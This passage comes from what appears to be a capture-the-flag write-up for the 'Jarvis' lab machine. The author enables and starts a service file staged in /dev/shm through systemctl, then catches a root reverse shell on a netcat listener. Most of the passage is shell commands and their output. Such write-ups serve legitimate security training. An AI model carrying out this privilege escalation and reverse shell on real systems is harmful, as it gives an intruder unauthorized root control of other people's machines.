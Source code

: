 Then, using this file, I can enable and start the service.

```bash
pepper@jarvis:/dev/shm$ systemctl enable /dev/shm/root.service
systemctl enable /dev/shm/root.service
Created symlink /etc/systemd/system/multi-user.target.wants/root.service -> /dev/shm/root.service.
Created symlink /etc/systemd/system/root.service -> /dev/shm/root.service.


pepper@jarvis:/dev/shm$ systemctl start root
systemctl start root
```

The listener soon spawns a shell.

```bash
┌──(kali㉿kali)-[~/htb/jarvis]
└─$ nc -nlvp 9002
listening on [any] 9002 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.143] 46904
bash: cannot set terminal process group (42299): Inappropriate ioctl for device
bash: no job control in this shell
root@jarvis:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@jarvis:/# whoami
whoami
root
```

I got `root` shell!